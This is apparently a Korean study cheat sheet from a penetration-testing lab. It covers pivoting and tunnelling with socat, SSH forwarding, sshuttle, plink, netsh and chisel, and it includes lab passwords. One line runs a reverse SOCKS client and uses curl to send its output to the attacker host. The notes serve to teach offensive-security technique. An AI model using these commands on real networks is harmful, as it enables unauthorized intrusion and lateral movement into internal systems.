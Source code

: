 - `tunnerling`: 데이터를 보낼 수 있는 통로를 만들어 냄
- `port forwarding`: 그 통로를 통해서 어떤 포트를 연결할지 정함
---
```bash
ip addr
# 네트워크 인터페이스의 IP 주소 확인

ip route
# 라우팅 테이블 확인
```
---
# Port Forwarding with Socat
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```
- `-ddd`: 디버그 레벨을 높여 상세 로그 출력
- `TCP-LISTEN:<포트>`: 지정된 포트에서 TCP 연결을 대기
- `fork`: 클라이언트 접속 시 프로세스를 fork 하여 다중 접속 처리
- `TCP:<IP>:<포트>`: 원격 서버와 TCP 연결
---
# SSH Local Port Forwarding
```bash
# 내부의 다른 컴퓨터(172.16.50.21)로 연결
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# 내부 컴퓨터로 연결
ssh -N -L 5901:localhost:5901 commander@192.168.121.55

smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
```
- `ssh -N`: 원격 쉘 실행 없이 포트 포워딩만 설정
- `-L [bind_address:]port:host:hostport`: 로컬 포트를 원격 호스트의 특정 포트로 포워딩
---
# SSH Dynamic Port Forwarding
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# /etc/proxychains4.conf
socks5 192.168.50.63 9999

proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `-D [bind_address:]port`: SOCKS 프록시 생성
- `proxychains`: 지정된 프록시를 통해 명령 실행
---
# SSH Remote Port Forwarding
```bash
sudo systemctl start ssh

ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
- `-R [bind_address:]port:host:hostport`: 원격 서버의 포트를 로컬로 포워딩
---
# SSH Remote Dynamic Port Forwarding
```bash
ssh -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998
```
---
# sshuttle
```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `sshuttle -r <user@host:port> <subnet>`: VPN 유사 터널링
---
# ssh.exe
```bash
# kali
sudo systemctl start ssh

ssh.exe -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998

proxychains psql -h 10.4.50.215 -U postgres
```
---
# Plink
```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
- `-ssh`: SSH 프로토콜 사용
- `-l <user>`: 로그인 사용자명
- `-pw <password>`: 비밀번호
- `-R`: 원격 포트 포워딩
---
# Netsh
```powershell
netsh interface portproxy add v4tov4 listenport=2222 '
listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netsh advfirewall firewall add rule name="port_forward_ssh_2222" '
protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow

ssh database_admin@192.168.50.64 -p2222

netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
- `netsh interface portproxy add`: 포트 프록시 추가
- `netsh advfirewall firewall add rule`: 방화벽 규칙 추가
- `delete rule`: 규칙 삭제
- `del v4tov4`: 포트 프록시 제거
---
# Chisel
```bash
chisel server --port 8080 --reverse
```
- `server`: Chisel을 서버 모드로 실행
- `--port 8080`: 서버가 수신 대기할 포트 번호 (이 예시에서는 8080)
- `--reverse`: 클라이언트가 리버스 포워딩을 요청할 수 있도록 허용

```bash
chisel client 10.10.14.3:8000 R:80:127.0.0.1:80
```

```bash
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```
- `client <서버주소:포트>`: 지정된 서버에 클라이언트 모드로 접속
- `R:socks`: 서버 측에서 리버스 SOCKS 프록시를 생성  
  (즉, 서버에서 접속할 수 있는 SOCKS 포트가 열림)
- `&> /tmp/output`: 표준 출력과 표준 에러를 `/tmp/output` 파일로 리다이렉트
- `curl --data @/tmp/output <url>`: 실행 결과 로그를 서버(192.168.118.4:8080)로 전송



```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
- `ssh -o ProxyCommand=...`: SSH 접속 시 프록시 명령어 지정
- `ncat`: netcat의 확장 버전으로 다양한 프록시 지원
- `--proxy-type socks5`: SOCKS5 프로토콜을 사용
- `--proxy 127.0.0.1:1080`: 로컬에서 실행 중인 SOCKS 프록시(Chisel을 통해 생성된 것)
- `%h %p`: SSH가 접속하려는 원격 호스트와 포트로 치환됨
- `database_admin@10.4.50.215`: 최종적으로 접속할 SSH 서버 계정 및 주소
---
